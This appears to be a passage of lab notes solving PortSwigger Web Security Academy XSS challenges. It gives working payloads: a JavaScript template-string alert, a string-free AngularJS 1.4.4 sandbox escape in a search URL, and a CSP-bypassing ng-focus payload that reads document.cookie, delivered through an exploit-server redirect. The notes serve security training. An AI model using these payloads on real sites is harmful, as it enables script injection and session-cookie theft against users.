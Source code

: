 There is a JavaScript template string.

```
${alert(1)}
```

### Lab: Reflected XSS with AngularJS sandbox escape without strings

This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

**Search -> 12345678**

```
<script type="text/javascript" src="/resources/js/angular_1-4-4.js"></script>

<body ng-app=labApp>
	<script>
		angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
			$scope.query = {};
			var key = 'search';
			$scope.query[key] = '12345678';
			$scope.value = $parse(key)($scope.query);
		});
	</script>
```

[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-\(without-strings\))

`/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`

### Lab: Reflected XSS with AngularJS sandbox escape and CSP

This lab uses CSP and AngularJS.

```
<script type="text/javascript" src="/resources/js/angular_1-4-4.js"></script>
<body ng-app ng-csp>
```

_"Search term cannot exceed 70 characters"_

[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected-1-all-versions-(chrome)-shorter](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected-1-all-versions-\(chrome\)-shorter)

```
<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>
```

**Exploit Server ->**

```
Body: 
    <script>
    location = "https://ac9d1f0d1f52bf94c0bf17bc0020006c.web-security-academy.net/?search=%3Cinput+id%3Dx+ng-focus%3D%24event.path%7CorderBy%3A%27%28z%3Dalert%29%28document.cookie%29%27%3E#x"
    </script>
```
